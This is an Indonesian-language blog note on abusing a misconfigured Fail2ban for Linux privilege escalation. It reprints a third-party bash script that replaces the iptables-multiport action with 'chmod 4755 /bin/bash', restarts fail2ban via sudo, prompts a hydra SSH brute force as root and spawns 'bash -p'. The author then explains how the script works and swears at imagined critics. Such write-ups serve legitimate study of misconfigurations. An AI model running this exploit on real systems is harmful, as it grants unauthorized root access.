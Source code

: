 ```yaml
---
layout: post
title: 'Note: Fail2ban PrivEsc'
date: 2022-12-28
---
```


Nyari sana sini ternyata beberapa blog ini, tidak berguna.

* [Author: Youssef Ichioui](https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7)
* [Title: The Cyber Security Library](https://oklencodes.gitbook.io/untitled/ctfs/biteme-ctf/fail2ban-privilege-escalation)
* [Author: JAY BHATT](https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49)
* [Author: rvizx](https://github.com/rvizx/fail2ban)

Bukan untuk menghina atau apa, tetapi saya mencoba semua metode itu yang memang kesannya `plagiarism` tetap tidak bisa ditolerir dan metode mereka semua sampah.
> Yaelah, kayanya lu aja yang lupa ngecek versinya

Matamu tak picek kene.
> Mungkin lu ga liat konfigurasinya aja bro, blablab

Raimu tak geplak kene, asu.

### Analyzing code of Rvizx's script
```sh
#!/usr/bin/bash

# title : fail2ban-privesc
# author : Ravindu Wickramasinghe (@rvizx9)


echo '
+==============================+
|  fail2ban-privesc | @rvizx9  |
+==============================+

'

conf="
[INCLUDES]
before = iptables-common.conf
[Definition]

actionstart = <iptables> -N f2b-<name>
              <iptables> -A f2b-<name> -j <returntype>
              <iptables> -I <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>

actionstop = <iptables> -D <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>
             <actionflush>
             <iptables> -X f2b-<name>

actioncheck = <iptables> -n -L <chain> | grep -q 'f2b-<name>[ \t]'
actionban = chmod 4755 /bin/bash
actionunban = <iptables> -D f2b-<name> -s <ip> -j <blocktype>
[Init]
"

rm -rf /etc/fail2ban/action.d/iptables-multiport.conf
echo "$conf" > iptables-multiport.conf
mv iptables-multiport.conf /etc/fail2ban/action.d/
sudo /etc/init.d/fail2ban restart
ip -br -c a

echo "[!] start to bruteforce ssh login."
echo "[run] @attacker : hydra <ip-addr> -l root -P /usr/share/wordlists/rockyou.txt ssh"
echo "[!] bash -p will be executed in 100s"
sleep 100
bash -p
```
Saya jelaskan dulu bagaimana kode ini bekerja dan membuat muak hidup saya hingga 1 jam untuk melihat bahwasanya ini adalah hal konyol. Saya tidak menggunakan script ini untuk dieksekusi, tetapi saya menggunakan ini sebagai shortcut untuk melihat apakah pasti atau tidak.

`conf` itu adalah sebuah variable yang diisi string untuk direplace ke `iptables-multiport.conf`. ya di dalamnya terdapat `actionban` dengan value `chmod 4755 /bin/bash` sebagai command yang di-abuse ke `/bin/bash` untuk mendapatkan `SETUID` dan bisa dielevasi ke `root` menggunakan parameter `-p`.

![image](https://i.postimg.cc/4x4t2ZbP/image.png)
[source](https://chmodcommand.com/chmod-4755/)

lalu perintah `sudo /etc/init.d/fail2ban` adalah relatif tergantung kasus yang ada. Perintah ini digunakan untuk memulai ulang firewall tersebut dan me-reload konfigurasi. Di kasus yang saya temukan itu menggunakan `sudo -l` abusing.

![image](https://i.postimg.cc/6pVjn96h/image.png)
